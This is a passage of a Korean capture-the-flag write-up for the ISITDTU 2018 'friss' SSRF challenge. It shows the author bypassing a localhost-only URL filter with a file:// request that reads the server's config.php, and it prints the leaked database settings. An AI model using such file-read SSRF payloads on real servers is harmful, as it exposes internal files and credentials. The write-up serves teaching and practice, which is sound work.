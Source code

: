 ```php
echo $content_url; 
?> 
</body> 

...

<!-- index.php?debug=1--> 
```

입력창에 url을 적으면 `getUrlContent`로 내용을 가져온다.
그래서 입력창에 `http://www.naver.com`을 적어 보았다.  

![](/images/CTF/ISITDTU2018/friss/friss_02.png)  

`localhost`만 된다고 한다.
그런데 분명히 `Only access to localhost`라는 문자열은 아까 확인 한 `index.php`에는 없었던 문자열이다.  

그래서 다시 소스코드를 살펴보니 `include_once "config.php";`라는 부분이 있다.
그럼 `config.php`라는 파일이 있다는 소리니, 이 파일을 살펴봐야 할 것 같다.
이 때 `file` 프로토콜을 사용하면 된다.
`index.php`에서는 딱히 프로토콜에 대한 제한은 없었으니, `file://127.0.0.1/var/www/html/config.php`를 하면 아마도 `config.php`의 내용을 볼 수 있을 것이다.  

```php
<!DOCTYPE html>
<html lang="en-US">
<head><title>REQUESTS PAGE</title>
</head>

<body>

curl 'file://127.0.0.1/var/www/html/config.php'
<form action="index.php" method="POST">
<input name="url" type="text">
<input type="submit" value="CURL">
</form>


<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
	$dbinit = "create table if not exists flag(secret varchar(100));";
	if(mysqli_query($conn,$dbinit)) return 1;
	else return 0;
}

function safe($url)
{
	$tmpurl = parse_url($url, PHP_URL_HOST);
	if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
	{
		var_dump($tmpurl);
		die("<h1>Only access to localhost</h1>");
	}
	return $url;
```